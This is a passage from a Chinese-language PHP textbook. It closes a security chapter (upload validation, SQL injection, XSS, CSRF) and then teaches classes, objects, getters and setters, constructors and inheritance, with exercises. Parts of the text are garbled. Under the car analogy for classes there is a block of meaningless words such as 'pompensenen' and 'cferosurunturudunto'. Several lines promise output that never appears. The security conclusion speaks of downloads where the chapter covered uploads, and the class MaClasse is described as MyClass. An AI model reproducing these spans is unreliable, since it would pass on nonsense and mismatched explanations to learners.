- 5. 代码还使用 pathinfo($filePath, PATHINFO_EXTENSION) 检查文件扩展名，并将其与允许的扩展名列表（$allowedExtensions）进行比较。这通过确保上传的文件具有正确的扩展名，增加了一层额外的安全性。
- 6. 如果 MIME 类型和文件扩展名有效，则使用 move_uploaded_file() 将文件移动到目标目录。否则，将显示适当的错误消息，以告知用户上传文件时遇到的任何问题。
- 7. 最后，将显示一个 HTML 表单，以允许用户选择并上传文件。该表单通过 POST 方法且 enctype="multipart/form-data" 将数据发送到当前 PHP 脚本 ($_SERVER["PHP_SELF"])，从而实现文件上传。

这段代码通过检查上传文件的 MIME 类型和扩展名来增强上传文件的安全性，从而大大降低了恶意或危险文件被上传到服务器的风险。

## 结论

本章关于 PHP 安全性的内容强调了保护 Web 应用免受各种恶意威胁和攻击的至关重要性。我们深入探讨了安全性的各个方面，首先从 SQL 注入攻击开始，这是 Web 应用最常见且潜在最具破坏性的威胁之一。通过了解攻击者如何利用安全漏洞来操纵 SQL 查询并危及数据库数据，开发人员可以实施预防措施，例如使用预处理语句和绑定参数来防范这些攻击。

我们还探讨了跨站脚本（XSS），这是另一种主要威胁，允许攻击者将恶意 JavaScript 代码注入到 Web 页面中，从而危及最终用户的安全。通过使用特殊字符转义和用户输入验证等技术，开发人员可以降低 XSS 被利用的风险，并保护用户免受攻击。

还讨论了跨站请求伪造（CSRF），强调了伪造请求的潜在危险，这些请求利用用户信任在网站上执行未经授权的操作。通过使用防 CSRF 令牌和验证服务器端请求，开发人员可以降低此风险并保证用户操作的完整性。

最后，我们探讨了与文件下载相关的风险，强调了攻击者可利用来在服务器上执行恶意代码的潜在漏洞。通过对允许的文件类型施加严格限制、检查 MIME 签名并限制下载权限，开发人员可以降低这些漏洞被利用的风险并保护系统完整性。

综上所述，PHP 安全性是现代 Web 开发的重要方面。通过了解各种威胁并在整个开发过程中实施强大的安全实践，开发人员可以创建安全可靠的 Web 应用程序，保护用户的敏感数据并保障安全可靠的用户体验。

## PHP 中的面向对象编程

面向对象编程（OOP）是一种基于创建和操作对象的基本编程范式。在 PHP 中，OOP 提供了一种强大的结构化和组织代码的方式，实现了更高的可重用性、模块化以及对数据和功能的更高效管理。

过程式编程与面向对象编程（OOP）之间的区别在于它们对代码结构采用了根本不同的方法。在过程式编程中，程序围绕函数构建，数据通常可直接访问和操作。而在面向对象编程中，代码则围绕称为对象的实体进行组织。这些对象封装了数据（称为属性或特性）以及作用于这些数据的功能（称为方法）。

需要注意的是，OOP 并不本身是一种新的编程语言，而是一种在现代应用程序开发中广泛使用的编程范式。这种方法为设计和管理代码提供了更有组织的结构，将其划分为具有特定特征和行为的可重用对象。

至于 PHP，这是一种流行且灵活的编程语言，它为 OOP 提供了原生支持。这使开发人员能够使用 OOP 概念创建更强大、更可扩展的应用程序。

简而言之，OOP 提供了一种替代且高效的代码组织方式，其中一切都被视为对象。每个对象都具有用于存储数据的属性和用于对该数据执行操作的方法。这种方法促进了代码的可重用性、模块化和可维护性，使其成为许多软件开发项目的有吸引力的选择。

在本节中，我们将详细探讨 PHP 中 OOP 的基本原则以及良好的开发实践。以下是我们将涵盖的主题概述：

- 第 1 章：类和对象：本章通过介绍类和对象的概念，为 PHP 中的 OOP 奠定了基础。读者将学习如何定义类、创建对象实例以及访问它们的属性和方法。
- 第 2 章：封装和数据建模：本章探讨了 PHP 中的封装概念，并展示了如何使用类建模数据。
- 第 3 章：PHP 中的继承：本章探讨了 PHP 中的继承，允许您创建类层次结构以重用和扩展代码。
- 第 4 章：接口和抽象类：本章介绍了 PHP 中的接口和抽象类。您将学习如何使用接口定义契约以及如何创建抽象类以定义多个类共有的方法。
- 第 5 章：异常处理：本章涵盖了 PHP 中的异常处理，使您能够在应用程序中以干净高效的方式处理错误和异常情况。


第 6 章：命名空间：本章探讨 PHP 中的命名空间，为你提供一种在逻辑上组织代码并防止名称冲突的方法。

第 7 章：特性：本章介绍 PHP 中的特性，使你能够在多个类之间重用代码，而无需使用多重继承。

第 8 章：魔术方法：本章探讨 PHP 的魔术方法，这些在 PHP 中非常有用的特殊方法。

本节深入探讨 PHP 中的面向对象编程，为开发者提供设计和开发健壮、可扩展且易于维护的 PHP 应用程序所需的知识和技能。

### 第 14 章

### 类和对象

在 PHP 的面向对象编程世界中，类和对象是实现代码高效结构化和组织的基本元素。类可以被视为创建对象的模型或蓝图，而对象是类的具体实例，拥有自己的数据（属性）和行为（方法）。

本章将带领我们进入 PHP 中类和对象的精彩世界。我们将发现如何定义和创建类、实例化对象、访问其属性和方法，以及管理类成员的可见性。我们还将通过类和对象探索封装、抽象和代码重用的关键原则。

本章将为你提供掌握类和对象基本概念并有效地将其应用于 PHP 开发项目所需的工具。准备好踏上进入 PHP 面向对象编程核心的激动人心之旅吧！

### 定义和创建类

类是 PHP 中面向对象编程的基础。类是定义对象形式的数据结构。它封装了与特定类型对象相关的数据（属性）和行为（方法）。这里有一个简单的类比，帮助你理解面向对象编程中的类是什么：

例如，可以把类视为制造汽车的蓝图或模型。在这个模型中，你指定将要制造的所有汽车共有的特征，例如车门数量、车轮数量、品牌、颜色等等。这个模型还定义了与汽车相关的方法（例如启动、加速、刹车）。

定义此类后，你可以创建它的特定实例，这些实例就像是按照计划建造的独立房屋。“Car”类的每个实例都是一辆特定的汽车，具有品牌、型号和颜色等属性的各自值。

### 类

- pompensenen
- o skjoken
- o apoppa
- reconstir, oesan

### 类

### 颜色

- cococas soban, oo
- cferosurunturudunto

### 颜色 - Miendiss

- orcas semnenmennoo
- ntanapenrettty, So not

ness
...
hed

### 速度

### 英里/小时

- ...
- ...

### scurd

- offeirten conde
- ...

### 刹车

- pionan erogotite
- ...
- ...

### 加速

- ensipin, oreetg; annoo
- ...

### 加速

- opeaal, agoo
- ...

### 速度

- ocao minoos
- ...


简而言之，类是定义某一类型对象的结构和行为的模型或蓝图，而实例是该类的特定副本，具有类中定义的属性的各自值。

### 类定义

在 PHP 中，使用 **类** 关键字声明类，后跟类名以及用大括号括起来的属性和方法。

类名必须以字母或下划线（_）开头，后跟字母、数字或下划线。

命名约定建议使用 **PascalCase** 表示法来命名类，这意味着类名中的每个单词都以大写字母开头，且不包含空格或特殊字符。特别是，类名的首字母大写。

定义类的一般语法如下：

```php
class ClassName {
    // Class Content
}
```

为了更好地理解这些概念，让我们在服务器上创建一个名为 "phpfoo" 的目录。如果你在本地使用 XAMPP，可以将此目录创建在 "htdocs" 文件夹中。在此目录中，我们将放置本节涵盖的所有概念的示例说明。

### 类属性（属性）

类属性是在类内部声明的变量。

它们定义与类的每个实例相关的特征或数据。

命名约定通常建议使用 camelCase 表示法来命名属性，这意味着第一个单词以小写字母开头，后续单词以大写字母开头。

### 示例：

```php
class MyClass {
    public $myProperty;
    private $otherProperty;
}
```

这段代码在 PHP 中定义了一个名为 "MyClass" 的类。在类中，我们声明了两个属性："$myProperty" 和 "$otherProperty"。"$myProperty" 属性被声明为 public，这意味着它可以从类外部访问。另一方面，"$otherProperty" 属性被声明为 private，这意味着它只能在类本身内部访问，无法从外部访问。私有属性用于封装数据，并通过限制直接访问来保证其完整性。

### 类方法

类方法是在类内部声明的函数。

它们定义与类的每个实例相关的操作或行为。

命名约定通常建议使用 camelCase 表示法来命名方法，与属性的命名方式相同。

### 示例：

```php
class MaClasse {
    public function myMethod() {
    // Method body...
    }

    private function otherMethod() {
    // Body of method...
    }
}
```

这段代码在 PHP 中定义了一个名为 "MyClass" 的类。在类中，我们定义了两个方法："myMethod()" 和 "otherMethod()"。"myMethod()" 方法被声明为 public，这意味着它可以从类外部调用。另一方面，"otherMethod()" 方法被声明为 private，这意味着它只能在类本身内部调用，且无法从外部访问。私有方法用于封装类的内部逻辑，并不打算从类外部直接调用。这样可以保护和限制对某些类功能的访问。

在面向对象编程中，术语“方法”用于指代与类关联的函数，而术语“函数”通常保留给独立的代码块。因此，在讨论面向对象编程时，我们使用“方法”来描述对象的特定操作或行为，而“函数”则用于更一般、与类无关的上下文。

### 实际示例：创建类

在主 phpoo 目录中，创建两个新文件，分别命名为 index.php 和 Users.php（确保首字母大写）。然后，在后者文件中，定义一个名为 Users 的类，同样使用大写字母开头以与文件名匹配。

```php
<?php
class Users {
public $name;
public $firstname;
public $age;
public $email;

public function logIn() {
echo "I'm a member, so I can connect";
}

public function logOut() {
echo "I can log out";
}
}
?>
```

这段代码定义了一个名为 "Users" 的类，用于表示具有 name、firstname、age 和 email 等多个属性的用户。该类还包含两个公共方法："logIn()" 和 "logOut()"。

"logIn()" 方法显示一条消息，指示成员可以登录，而 "logOut()" 方法显示一条消息，指示用户可以登出。这些方法为管理用户登录和登出提供了特定功能。

### 对象实例化

定义类后，可以使用 **new** 关键字创建该类的对象（实例）。


在 index.php 文件中，添加以下代码：

例如：

```php
<?php
require_once "Users.php";
$user1 = new Users();
```


这段 PHP 代码首先使用 require_once 包含 Users.php 文件，该文件包含 Users 类的定义。接着，它使用 new 关键字创建 Users 类的新实例，并将该实例分配给变量 $user1。换句话说，它创建了类型为 "Users" 的新对象，现在可以访问 "Users" 类中定义的属性和方法。

## 对对象的写访问

对对象的写访问意味着我们可以修改（或分配）对象属性的值。这允许我们更新存储在对象属性中的数据。

在 Users 类的上下文中，我们可以按如下方式对 $user1 对象的属性进行写访问：

```
$user1->name="Dupont" ;
$user1->firstname="Eric" ;
$user1->age= 30 ;
$user1->email="dupont-eric@gmail.com" ;
```

这段代码要集成到 index.php 文件中（其中已从 Users 类实例化了 $user1 对象），用于给 Users 类中 $user1 对象的属性赋值。更准确地说：

- "$user1->name = "Dupont";" 将值 "Dupont" 赋给 "$user1" 对象的 "name" 属性。
- "$user1->firstname = "Eric";" 将值 "Eric" 赋给 "$user1" 对象的 "firstname" 属性。
- "$user1->age = 30;" 将值 30 赋给 "$user1" 对象的 "age" 属性。
- "$user1->email = "dupont-eric@gmail.com";" 将值 "dupont-eric@gmail.com" 赋给 "$user1" 对象的 "email" 属性。

通过赋这些值，我们初始化了由 "$user1" 对象表示的用户的数据。

## 对对象的读访问

对 $user1 对象的读访问意味着我们可以检索其属性值，但不能直接修改它们。这意味着我们可以使用对象属性中存储的值，但不能直接向这些属性写入新值。

在 Users 类的上下文中，如果我们想要访问上面实例化的 $user1 对象的读属性，可以按如下方式进行：

```
// Code to add to index.php
// Read access to $user1 object properties
echo "Name: ". $user1->name ."<br>";
echo "First name: ". $user1->firstname ."<br>";
echo "Age: ". $user1->age ."<br>";
echo "Email: ". $user1->email ."<br>";
```

这样我们就可以显示 $user1 对象的属性值。请注意用于调用属性的小箭头 (->)。

如果你当前正在运行 index.php 文件，显示的结果将类似于以下内容：


## 对方法的访问

方法通过类的对象来访问。一旦从类中创建了对象，就可以使用箭头表示法 (->) 调用类的方法。

例如，在已经实例化了 $user1 对象的 index.php 文件中，我们可以在此对象上调用 logIn() 方法。

```
$user1->logIn();
```

这将执行 logIn() 方法内部的代码。


## 对对象私有属性的读访问

对对象私有属性的访问是面向对象编程（OOP）中的一个重要概念。让我们按如下方式修改 Users 类：

```
<?php
class Users {
 private $name = "Dupont" ;
 private $firstname = "Karine" ;
 private $age = 27 ;
 private $email = "dupont-karine@gmail.com" ;
}
```

在这个 Users 类示例中，我们使用 "**private**" 关键字定义了四个 **私有** 属性：$name、$firstname、$age 和 $email。

$name、$firstname、$age 和 $email 属性的初始值分别为 "Dupont"、"Karine"、27 和 "dupont-karine@gmail.com"。这些值在属性声明时赋予。

让我们现在更新 index.php 文件，尝试从 Users 类外部访问 $name、$firstname、$age 和 $email 属性。以下是 index.php 的当前内容：

```
<?php

require_once "Users.php";

$user1 = new Users();

//Read access to $user1 object properties

echo "Name : " . $user1->name . "<br>";
echo "First name : " . $user1->firstname . "<br>";
echo "Age : " . $user1->age . "<br>";
echo "Email : " . $user1->email . "<br>";
```

如果你运行 index.php，将会得到以下错误：


此错误表明我们正在尝试从 Users 类外部访问私有属性（$name），这是不允许的。私有属性仅可在声明它们的类内部访问。当我们尝试从另一个上下文（如 index.php 文件）访问它们时，PHP 会生成一个致命错误。那么，我们如何从定义它们的类外部访问私有属性呢？

解决方案在于在类中创建公共方法，这些方法允许访问这些私有属性。然后，在类外部，可以使用这些公共方法来访问对象的私有属性。这些方法充当中介，提供一种受控且安全的方式来访问和操作私有属性，同时保持类的封装性。

让我们按如下方式修改 Users 类：

```
<?php
class Users {
	private $name = "Dupont" ;
	private $firstname = "Karine" ;
	private $age = 27 ;
	private $email = "dupont-karine@gmail.com" ;

	public function getInfosUser() {
	echo "Name: $this->name <br>";
	echo "Firstname: $this->firstname <br>";
	echo "Age: $this->age <br>";
	echo "Email address: $this->email";
	}

}
```

在这个 Users 类版本中，我们添加了一个名为 **getInfosUser()** 的公共方法，用于显示用户信息。该方法定义在 Users 类内部。它使用 echo 语句显示当前对象（由 **$this** 表示）的姓、名、年龄和电子邮件地址属性的值。请注意，**$this** 变量是 PHP 中一个非常重要的关键字，指当前正在使用的对象。

在 getInfosUser() 方法中，私有属性值通过语法 $this->name、$this->firstname、$this->age 和 $this->email 进行访问。-> 运算符用于访问当前对象的属性。

使用 getInfosUser() 方法，你可以从 Users 类的实例中检索和显示用户信息。例如，在 index.php 中，我们有一个名为 $user1 的 Users 类实例。你可以在此实例上调用 getInfosUser() 方法来显示该用户的详细信息。

```
<?php

require_once "Users.php";

$user1 = new Users();

//Call getInfosUser() method

$user1->getInfosUser();
```

在这段代码中，在包含 Users.php 文件并使用 new 运算符实例化该类的新对象，并将此实例存储在 $user1 变量之后，getInfosUser() 方法在 $user1 对象上被调用。

执行此代码的结果将是显示用户信息，例如姓、名、年龄和电子邮件地址，因为 getInfosUser() 方法负责显示这些信息。结果将类似于以下内容：

姓名: Dupont
名: Karine
年龄: 27
电子邮件地址: dupont-karine@gmail.com

简言之，重要的是要理解，从定义它们的类外部访问私有属性是通过同一类中定义的公共方法实现的。

## 对对象私有属性的读访问

让我们以 Users 类为例，声明私有属性 name、firstname、age 和 email，但不对其进行初始化。

```
<?php

class Users {
private $name ;
private $firstname ;
private $age ;
private $email ;
}
```

如果你现在尝试直接从类外部（例如从 index.php 文件）使用以下代码初始化这些属性：

```
<?php

require_once "Users.php";

$user1 = new Users();

$user1->name = "Dupont";
$user1->firstname = "Claire";
$user1->age = 32;
$user1->email = "dupond-claire@gmail.com";
```

执行此代码时，会生成一个致命错误，指示不允许从类外部访问私有属性。为了解决此错误并允许从类外部对私有属性进行写访问，我们需要在类中提供允许修改这些属性的公共方法。
在 Users 类中，我们创建一个名为 initialize() 的新公共方法，例如：

```
public function initialize($lastName, $firstName, $age, $email){
$this->name = $lastName;
```


```
$this->firstname = $firstName;
$this->age = $age;
$this->email = $email;
}
```

在这段代码中，我们创建了一个公共方法，它以用户的姓氏、名字、年龄和电子邮件作为参数，然后将它们分配给当前对象（$this）的相应属性。该方法因此根据提供的参数值初始化对象私有属性的值。我们现在可以使用此方法来访问对象的私有属性：姓氏、名字、年龄和电子邮件。让我们在 index.php 文件中调用此方法：

```
require_once "Users.php";

$user1 = new Users();

$user1->initialize("Salim", "Zakaria", 32, "salim@gmail.com");
```

代码执行不会产生错误。要获取由 initialize() 方法初始化的姓氏、名字、年龄和电子邮件属性的值，我们还可以调用 getInfosUser() 方法：

```
require_once "Users.php";

$user1 = new Users();

$user1->initialize("Salim", "Zakaria", 32, "salim@gmail.com");

$user1->getInfosUser();
```

执行此代码将产生以下结果：


简而言之，私有属性通过充当操作类中封装数据的接口的公共方法来访问。这保持了封装性，控制对私有数据的访问，从而保证系统的安全性和一致性。

## 结论

在本章中，我们深入探讨了面向对象编程的基本概念：类和对象。我们学习了如何定义类、从这些类创建对象，以及操作对象内部封装的数据。

我们还研究了不同类型的属性和方法。这些概念使我们能够创建复杂的数据结构以及模块化、可扩展的软件系统。

通过理解面向对象编程的原则，我们能够更好地设计健壮、易于维护且可扩展的应用程序。通过有效地使用类和对象，我们可以以更逻辑、更直观的方式组织代码，从而更轻松地开发和维护我们的项目。

总之，类和对象是 PHP 面向对象编程中的基本要素，掌握它们是任何希望创建现代高性能应用程序的 PHP 开发人员的必备技能。通过继续探索和实践这些概念，我们正在朝着成为更称职、更高效的 PHP 开发人员的方向前进。

## 练习

### 练习 24

编写一个表示城市的类。它应当具有名称、部门、区域和人口数量等属性，以及一个显示 "城市 X 位于区域 Z 的部门 Y，有 N 名居民" 字符串的方法。
创建城市对象，分配它们的属性，并使用显示方法。

### 练习 25

创建一个名为 Person 的类，包含以下属性：姓氏、名字、年龄。该类应当有一个 presentation() 方法，用于显示包含人员信息的字符串。

然后，创建两个信息不同的 Person 对象，并调用 presentation 方法。

### 第 15 章

### 数据封装与建模

在本章中，我们将探讨 PHP 面向对象编程（OOP）中封装的基本概念，以及它在数据建模和管理中的作用。封装是 OOP 的支柱之一，它将数据以及作用于该数据的方法分组在一个名为类的单一实体中。这种方法通过控制访问和操作来保证数据的完整性和安全性。

我们还将继续考察属性和方法的不同可见性级别，例如 public、private 和 protected，及其对封装的影响。通过理解这些可见性级别，你将能够设计结构良好且安全的类，同时便于代码重用和应用程序维护。

最后，我们将通过封装来探讨数据建模，实现模型类以高效地表示信息系统中的实体和关系。你将学习如何使用 getter 和 setter 来控制对属性的访问，保证数据一致性并简化对象管理。

通过将封装与其他 OOP 概念（例如我们将在后续章节中介绍的继承和多态）相结合，你将能够创建强大且灵活的 Web 架构，能够满足现代 IT 项目不断变化的需求。

### 封装：保护数据和方法

在 PHP 面向对象编程中，封装是指将数据（属性等）以及用于操作它们的动作分组在一个类中。

封装对于限制从类外部访问属性非常重要。为了确定谁可以访问我们类中的各种属性、方法和常量，我们使用访问限制器，也称为可见性级别，由 public、private 和 protected 关键字表示。

### 封装原则：

封装涉及类属性和方法的可见性和可访问性。
在创建新类时，确定哪些属性和方法必须从类外部可访问至关重要。

正如我们在上一章中所见，使用 **公共** 关键字定义的属性、方法或常量可随处访问，无论是在类内部还是外部。使用 **私有** 关键字定义的属性、方法或常量只能在定义它们的类内部访问。

在即将介绍的继承章节中，我们将发现，使用 **受保护** 关键字定义的属性、方法或常量可在定义它们的类内部，以及继承此类的子类或父类本身中访问。

按照惯例，属性被声明为私有，因为直接访问类属性是有风险的。要访问这些属性，我们使用公共方法。

在大多数情况下，我们使用关键字 public 定义方法，使用 **受保护** 或 **私有** 关键字定义属性。但是，需要注意的是，这一原则并非绝对，可能会根据每个应用程序的特定需求而有所不同。

### 定义和使用 getter 和 setter 方法

在本节中，我们将探讨面向对象编程中的一个基本概念：getter 和 setter。这些方法也称为访问器和修改器，用于访问对象的属性（getter）以及以受控方式修改这些属性（setter）。

getter 用于检索对象属性的值，而 setter 用于设置或修改这些值。

我们将了解如何在 PHP 类中定义这些方法，以及它们在封装数据、控制访问和保证应用程序中数据一致性方面的实际用途。

让我们回到 Users 类，看看如何定义和使用 getter 和 setter 方法：

```
<?php
class Users {
 private $name;
 private $age;

 // Getter for property $name
 public function getName() {
 return $this->name;
 }

// Setter for property $name
public function setName($newName) {
    $this->name = $newName;
}

// Getter for $age property
public function getAge() {
    return $this->age;
}

// Setter for property $age
public function setAge($newAge) {
    $this->age = $newAge;
}
}
```

这段 PHP 代码定义了一个 Users 类，包含两个私有属性：$name 和 $age。然后它声明了四个方法：

**getName():** 这是 $name 属性的 getter。它检索 $name 属性的值。

**setName($newName):** 这是 $name 属性的 setter。它用于为 $name 属性设置新值。

**getAge():** 这是 $age 属性的 getter。它检索 $age 属性的值。

**setAge($newAge):** 这是 $age 属性的 setter。它用于为 $age 属性定义新值。

getter 用于从类外部访问私有属性值，而 setter 用于以受控方式修改这些值。通过这种方式，类通过允许对属性进行受控访问来保证数据封装。

为了演示 Users 类 getter 和 setter 方法的使用，让我们将以下代码集成到 index.php 文件中：

```
<?php
require_once "Users.php";

// Instantiate the User object
$user1 = new Users();

// Use getters and setters methods
$user1->setName("Alice");
$user1->setAge(25);

echo "User name: ". $user1->getName() ."<br>";
echo "User age: ". $user1->getAge();
```

这段 PHP 代码说明了 Users 类 getter 和 setter 方法的使用。首先，使用 require_once 包含 Users 类。然后，实例化一个名为 $user1 的新 User 对象。


setName() 和 setAge() 方法用于分别设置用户的姓名和年龄。最后，getName() 和 getAge() 方法用于分别检索和显示用户的姓名和年龄。当你运行 index.php 文件时，将得到类似于以下结果：


## 使用 getter 和 setter 的优势

在面向对象编程中，使用 getter 和 setter 有以下几个优势：

- **封装**：getter 和 setter 用于控制对对象属性的访问。通过将属性定义为 private 或 protected，并提供用于访问和修改它们的 public 方法，我们能更好地控制数据操作，从而促进封装。

- **数据验证**：Setter 可以包含检查和验证，以确保分配给属性的数据是有效的。例如，你可以检查值是否在特定范围内，是否符合特定格式等。

- **灵活性**：通过使用 getter 和 setter，你可以轻松修改类中数据的操作方式，而无需修改使用该类的客户端代码。这使得对象管理具有更高的模块化和灵活性。

- **代码复用**：getter 和 setter 通过将数据操作逻辑封装在类中来促进代码复用。这减少了代码重复，并增强了代码的可维护性。

假设在 Users 类中，我们希望确保分配给用户的年龄是正整数。以下是使用 getter 和 setter 进行数据验证的示例：

```php
<?php
class Users {
    private $age;

    // Setter for $age property with validation
    public function setAge($newAge) {
        // Check if age is a positive integer
        if (is_int($newAge) && $newAge >= 0) {
            $this->age = $newAge;
        } else {
            // In case of invalid age, display an error message
            echo "Age must be a positive integer ";
        }
    }
    // Getter for $age property
    public function getAge() {
        return $this->age;
    }
}
```

在这段代码中，公共的 setAge() 方法是一个 setter，用于在验证的情况下设置年龄值。它接受一个参数 $newAge，并首先使用 is_int() 函数检查它是否为正整数，并检查 $newAge 是否大于或等于零。如果是，它将此值分配给当前对象的 $age 属性。否则，它将显示一条错误消息，指明年龄必须是正整数。

公共的 getAge() 方法是一个 getter，用于检索年龄值。它只需返回当前对象的 $age 属性的值。

使用此模型可确保年龄值始终有效，从而避免数据错误。以下是一个示例：

```php
<?php

require_once "Users.php";

// Instantiate the Users object
$user1 = new Users();

// Use setter to set age
$user1->setAge(30); // This works because 30 is a positive integer

// Use getter to retrieve age
echo "User's age: " . $user1->getAge(); // Will display : User's age: 30
echo "<br>";

// Attempt to use setter with invalid value
$user1->setAge(-10); // Display : Age must be a positive integer.

// Use the getter after an attempt with an invalid value
echo "User's age: " . $user1->getAge(); // Display : User age: 30 (age has not been modified)
```

在这段代码中，我们使用 setter setAge() 将用户的年龄设置为 30。此操作成功是因为 30 是正整数。

我们使用 getter getAge() 来检索用户的年龄并在屏幕上显示它。在这种情况下，它将显示 "User age: 30"。

接下来，我们再次尝试使用 setter setAge()，但这次使用无效值 -10。由于该值无效，setter 将显示错误消息 "Age must be a positive integer."。

最后，我们再次使用 getter getAge() 来显示用户的年龄。由于之前使用无效值的尝试未能修改年龄，此指令将再次显示 "User age: 30"。

执行此代码时，您将得到以下结果：


## 类构造函数

在 PHP 面向对象编程中，构造函数在对象的创建和初始化中发挥着关键作用。构造函数是类的一种特殊方法，在实例化该类的新对象时会自动调用。其主要目的是执行设置对象初始状态所需的初始化任务。

构造函数允许你定义对象属性从创建之初如何配置，提供了一种方便的方式来确保对象以一致且有效的状态创建。换句话说，它提供了一种手段，以确保对象所需的数据从一开始即可用并正确初始化。

在本节中，我们将详细探讨 PHP 构造函数概念，考察其语法、实际用途以及对数据建模和对象管理的影响。我们将了解如何在类中定义和使用构造函数，以及与其实现相关的最佳实践。通过理解构造函数的角色和重要性，PHP 开发者将更有能力设计健壮的类和结构良好的面向对象应用程序。

## 创建类构造函数

以下是一个实际示例，说明在 Users 类中创建和使用构造函数：

```php
<?php
class Users {
    private $name;
    private $firstname;
    private $age;
    private $email;

    // Constructor of the Users class
    public function __construct($name, $firstname, $age, $email) {
        $this->name = $name;
        $this->firstname = $firstname;
        $this->age = $age;
        $this->email = $email;
    }

    // Getter for user name
    public function getName() {
        return $this->name;
    }

    // Getter for user's first name
    public function getFirstname() {
        return $this->firstname;
    }

    // Getter for user's age
    public function getAge() {
        return $this->age;
    }

    // Getter for user's email address
    public function getEmail() {
        return $this->email;
    }
}
```

这段 PHP 代码定义了一个名为 Users 的类。该类有四个私有属性：$name、$firstname、$age 和 $email。它还有一个 **构造函数**。构造函数是一种始终名为 __construct() 的特殊方法。当创建新的 Users 对象时，此方法会自动调用。其主要角色是使用实例化类时提供的值来初始化对象的属性。

以下是构造函数的详细工作原理：

参数：构造函数接受四个参数：$name、$firstname、$age 和 $email。这些参数代表对象属性的初始值。

属性初始化：在构造函数中，使用 $this-> 运算符将参数值分配给对象的相应属性。例如，$this->name = $name; 将 $name 参数的值分配给正在构建的对象的 $name 属性。

除了 **构造函数**，Users 类还有四个名为 getter 的公共方法：getName()、getFirstName()、getAge() 和 getEmail()。这些方法分别检索私有属性 $name、$firstname、$age 和 $email 的值。它们用于以受控且安全的方式从类外部访问对象数据。

## 在实例化期间使用

当你使用构造函数创建新的 Users 对象时，必须提供参数值。例如，如果你执行 $user1 = new Users("Dupont", "Alice", 30, "dupont.alice@example.com");，则构造函数将使用指定的值调用，并且这些值将被分配给 $user1 对象的相应属性。在 index.php 文件中，插入以下代码：

```php
<?php
require_once "Users.php";

// Instantiate the Users class with the constructor
$user1 = new Users("Dupont", "Alice", 30, "dupont.alice@example.com");

// Display user information
echo "User name: ". $user1->getName() ."<br>";
echo "User first name :".$user1->getFirstname()."<br>";
echo "User's age: ". $user1->getAge() ."<br>";
echo "User email: ". $user1->getEmail();
```

这段代码说明了使用构造函数实例化 Users 类。当我们创建新的 Users 对象时，我们将值 "Dupont" 用于姓氏，"Alice" 用于名字，30 用于年龄，"dupont.alice@example.com" 用于电子邮件地址传递给构造函数。然后，这些值用于初始化 Users 对象的相应属性。

接下来，我们使用 getter 来检索用户的信息并在屏幕上显示它。我们使用 getName()、getFirstName()、getAge() 和 getEmail() 方法分别获取用户的姓氏、名字、年龄和电子邮件地址，并在浏览器中显示它们。
当你运行此代码时，您将得到以下结果：


```
User name: Dupont
User first name : Alice
User's age: 30
User email: dupont.alice@example.com
```

## 结论

在本章关于面向对象编程中封装和数据建模的内容中，我们探讨了在应用程序内构建和保护数据所涉及的基本概念。我们从封装开始，封装是指将数据及其关联方法分组在类中，同时定义可见性级别以控制对这些元素的访问。

然后我们详细探讨了getter和setter方法，这些方法提供了一种安全且受控的方式来访问和修改类的私有属性。通过使用这些方法，我们了解了如何保证数据完整性，并通过防止直接访问私有属性来加强封装。

我们还探讨了使用getter和setter的优势，尤其是在灵活性、可维护性和代码安全性方面。通过使用特定方法来访问数据，我们可以轻松实现数据验证和处理逻辑，同时保持封装并最大限度地降低数据损坏的风险。

最后，我们探讨了构造函数在创建对象和初始化其属性中的基本作用。通过定义合适的构造函数，我们可以确保对象在创建时即被正确配置，从而有助于更安全、更一致地使用我们的类。

综上所述，封装和数据建模是面向对象编程中的关键概念，能够实现健壮、模块化且易于维护的应用程序设计。通过理解和应用这些原则，开发人员可以创建更高效、更可靠的软件系统，在整个生命周期内保证数据保护和完整性。

## 练习

### 练习26

创建一个名为Person的类，包含以下属性：

- $name：人员姓名
- $age：人员年龄

Person类必须包含以下方法：

- __construct($name, $age)：一个构造函数，用于初始化name和age属性
- getName()：一个返回人员姓名的方法
- getAge()：一个返回人员年龄的方法
- setAge($age)：一个修改人员年龄的方法

创建Person类的一个实例并显示其姓名和年龄。然后，修改人员的年龄并显示新值。

### 练习27

创建一个名为Vehicle的类，具有以下属性：brand、model、year、price。这些属性应在构造函数中定义。

该类必须为每个属性提供getter和setter，以及一个display()方法，用以将车辆信息显示为字符串。

然后，使用初始信息创建一个类型为Vehicle的对象（vehicle1），并使用display()方法和setter来修改创建的车辆的信息。

### 第 16 章

### PHP中的继承

继承是面向对象编程的基本概念之一。它允许一个类从另一个类（称为父类或基类）继承属性和方法。在PHP中，继承提供了一种重用代码和构建应用程序的强大机制。

本章将重点探讨PHP中的继承，详细考察其语法、优势和最佳实践。我们将了解如何创建类层次结构、访问继承的成员，以及重新定义方法以根据子类的特定需求进行自定义。此外，我们还将讨论在软件开发中使用继承时的重要注意事项。

理解继承对于掌握PHP中的面向对象编程以及设计更具模块化、可扩展性和可维护性的应用程序至关重要。那么，让我们深入探索PHP中继承的世界，发现它如何丰富我们的开发实践。

### 面向对象编程中继承的定义

继承是面向对象编程（OOP）的一个关键概念，它使一个类能够继承另一个类（称为其父类或基类）的特性（属性和方法）。通过继承，子类可以复用和扩展父类的行为，从而促进代码复用和应用程序的逻辑结构化。

在PHP中，继承使用extends关键字实现，该关键字允许子类通过继承父类的public和protected成员来扩展父类。这样一来，子类可以像访问在其自身类定义中本地定义的属性和方法一样访问父类的属性和方法。


让我们用一个简单的例子来说明继承的概念：

让我们创建一个名为"Person.php"的新文件，在其中定义一个同名的类，即"Person"：

```php
<?php
// Parent class
class Person {
    protected $name;
    protected $age;

    // Constructor
    public function __construct($name, $age) {
        $this->name = $name;
        $this->age = $age;
    }

    // Method to display person's details
    public function displayDetails() {
        echo "Name: ". $this->name . ", Age: ". $this->age . " years";
    }
}
```

这段代码定义了一个名为Person的类。该类具有由**protected**关键字定义的两个属性：$name和$age，分别表示人员的姓名和年龄。**protected**关键字是面向对象编程中的一种可见性级别，用于定义对类属性和方法的访问。当一个成员（属性或方法）被声明为**protected**时，它在定义它的类中以及继承自此类的派生类（子类）中都可以访问，但这些类之外不可访问。

具体来说，这意味着**protected**成员在声明它们的类之外不能直接访问，但可以在继承自此父类的子类中使用。这提供了额外的封装和安全级别，因为**protected**成员不会暴露在类层次结构之外，但可以被子类用来扩展或特化父类的行为。

Person类的构造函数定义用于在创建新的Person类型对象时初始化这些属性。它接受两个参数，$name和$age，并使用它们来初始化相应的对象属性。

Person类还有一个公共的displayDetails()方法，用于显示人员的详细信息，例如姓名和年龄，使用连接运算符(.)来形成包含这些详细信息的字符串。

